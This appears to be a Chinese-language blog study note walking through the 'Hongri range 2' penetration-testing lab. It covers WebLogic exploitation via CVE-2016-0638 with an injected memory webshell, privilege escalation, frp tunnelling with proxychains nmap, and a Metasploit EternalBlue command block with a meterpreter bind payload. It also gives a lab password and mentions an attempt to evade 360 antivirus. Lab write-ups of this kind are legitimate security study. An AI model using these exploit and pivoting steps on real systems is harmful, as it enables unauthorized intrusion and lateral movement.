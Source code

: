 ```yaml
---
title: 红日靶场二-学习笔记
date: 2023-06-24 21:11 +0800
categories: [SRC,渗透]
tags: [红日,渗透]
img_path: /assets/images/hongrier
---
```






https://pan.baidu.com/s/1DtOdje33JeoF8kcU6LBqSw?pwd=g5r4

![](WEBRESOURCEcac433cc9d9d4bddbcf1dc770267536b.png)

dc 区段1

pc 区段2 区段1

web nat 区段1



## 外网

![](WEBRESOURCEab16919d3ad044c3b1f3377abe7eef3c.png)



ms17010 是打不通的

![](WEBRESOURCE358953f4253349c9aeb086fd11ae2ffa.png)

有服务要手动起来，，，，

mssql 1qaz@WSX

登录启动 weblogic

![](WEBRESOURCE652d91cd4b6e46b5978bed38fee1670d.png)

疑似存在漏洞

![](WEBRESOURCEc2fb0a9031a2477683e9590c17f6ec10.png)

存在cve20160638

![](WEBRESOURCEfd9e7167662b4f27a4a8032159c0a6ec.png)

直接注入内存马

![](WEBRESOURCEebdb94b4e829406cbcca711a4b5ebead.png)



使用哥斯拉连接成功

![](WEBRESOURCE051aabdc15dd4165ae22e8bc2ed8ed84.png)

我们现在是低权

![](WEBRESOURCE313218577e034433909833ec526c0ea4.png)



靶机里面有360，但是cs直接生成的检测不出来。（搞了半天免杀还失败了【晕】

尝试提权，获取到了 system

![](WEBRESOURCE0f0e9e2ca292428793df11667920f9b2.png)

ipconfig /displaydns

查看dns缓存

pc icmp探测是不行的，dns才能探测到

![](WEBRESOURCE9da0abf566044da3af2aefe625131d6f.png)

上传运行 frp（过程略）

![](WEBRESOURCEedae8e64595647ee9ef8ec1ceae7ede4.png)

端口扫描 可以用插件或者

proxychains nmap -A -F -sT -Pn 10.10.10.10

![](WEBRESOURCE5ea6485890b04af0a0980b3880088993.png)



## 第二层上线cs

17010打进去用frp代理

```
set Proxies socks5:127.0.0.1:60000
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp
set rhost 10.10.10.10
set lport 4444
run
```

![](WEBRESOURCE311e72c64e7c4f0b8236de96b98c24f2.png)

现在跳板机上面监听端口，



![](WEBRESOURCEaa3c6064986d4247ad7066945431eff3.png)

配置一个端口就可以，

![](WEBRESOURCE72138e1fb4dc41d59c92e88137d3d275.png)

生成shell，监听跳板机监听的端口，cs会自动转发流量

![](WEBRESOURCEaa01799f717b4c398e19d2b535336349.png)

通过上面msf 获取的system，我们直接木马即可

![](WEBRESOURCE6e22de1f752f4f358eeecba4a5bcbbb0.png)

cs 会同步 上线

![](WEBRESOURCE173106f5c4e04729b918e98ae8aa75b4.png)



![](WEBRESOURCEa64157a3097b4d56ba9a61bf44412260.png)

